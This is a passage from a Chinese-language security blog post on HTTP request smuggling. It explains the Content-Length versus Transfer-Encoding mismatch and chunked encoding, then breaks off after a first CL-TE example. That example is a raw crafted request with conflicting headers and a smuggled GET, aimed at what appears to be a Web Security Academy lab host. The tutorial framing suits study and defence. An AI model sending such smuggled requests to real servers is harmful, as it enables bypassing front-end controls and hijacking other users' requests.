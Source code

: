 ```yaml
---
layout:     post
title:      HTTP 走私攻击
subtitle:   记录几种利用方式
date:       2020-06-03
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/background/http-走私.jpg
catalog: true
tags:
    - 协议安全
---
```


[TOC]



# 一、 简介

HTTP请求走私这一攻击方式很特殊，它不像其他的Web攻击方式那样比较直观，它更多的是在复杂网络环境下，不同的服务器对RFC标准实现的方式不同，程度不同。这样一来，对同一个HTTP请求，不同的服务器可能会产生不同的处理结果，这样就产生了了安全风险。

......


# 二、 利用方式

须备知识：
**Content-Length -> CL**
**Transfer-Encoding -> TE**
**chunk传输格式**
```
[chunk size][\r\n][chunk data][\r\n][chunk size][\r\n][chunk data][\r\n][chunk size = 0][\r\n][\r\n]
```
格式要求严格 注意换行符
## ① CL - TE 漏洞

前端服务器使用Content-Length头，而后端服务器使用Transfer-Encoding头
```
POST / HTTP/1.1
Host: aceb1ff51ec64b5b8090419800000073.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KHg6LNttXio2EIiNzjy0dsbYscTforYB
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 26
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1


```
